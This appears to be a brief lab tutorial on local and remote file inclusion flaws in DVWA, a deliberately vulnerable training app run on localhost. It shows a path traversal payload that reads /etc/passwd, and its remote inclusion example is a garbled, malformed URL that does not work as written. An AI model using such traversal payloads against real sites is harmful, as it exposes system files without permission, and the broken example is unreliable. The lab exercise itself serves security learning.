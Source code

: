 # File Inclusion Vulnerability 

There are two type of file inclusion vulnerability. 
1. Local File Inclusion 
2. Remote File Inclusion 

In this vulnerability we play aroud the directory and get the important information. URL play a very important role in performing this type of vulnerability. 

## Procedure for performing local file inclusion 

1. Change the security DVWA mode to low.

![image](https://user-images.githubusercontent.com/60937657/197385784-f960820c-4be8-4f31-911d-1858f32b5e34.png)

2. Go to file Inclusion Option 

![image](https://user-images.githubusercontent.com/60937657/197388618-02afd06e-c9f7-4422-b0cb-1e33d3f6ff85.png)

3. Changing the file URL 

![image](https://user-images.githubusercontent.com/60937657/197388820-3867654d-36cc-4c5e-af96-d06b23929a9a.png)

```
127.0.0.1/DVWA/vulnerabilities/fi/?page=../../../../../../../etc/passwd
```

The major change in url is being made after '=' sign. 

```
../../../../../../../etc/passwd
```

## Procedure for performing remote file inclusion

1. Change the security DVWA mode to low 

![image](https://user-images.githubusercontent.com/60937657/197385784-f960820c-4be8-4f31-911d-1858f32b5e34.png)

2. Go to file Inclusion Option 

![image](https://user-images.githubusercontent.com/60937657/197388618-02afd06e-c9f7-4422-b0cb-1e33d3f6ff85.png)

3. Changing the file URL 

The major change in URL is being made after '=' sign. 

```
http://www.google.com
```

```
127.0.0.1/DVWA/vulnerabilities/fi/?page=[../../../../../../../etc/passwd](http://www.google.com

```

**Result of this change is shown below**

![image](https://user-images.githubusercontent.com/60937657/197389222-73336f99-16f5-4642-bd89-96e4915ccf2c.png)

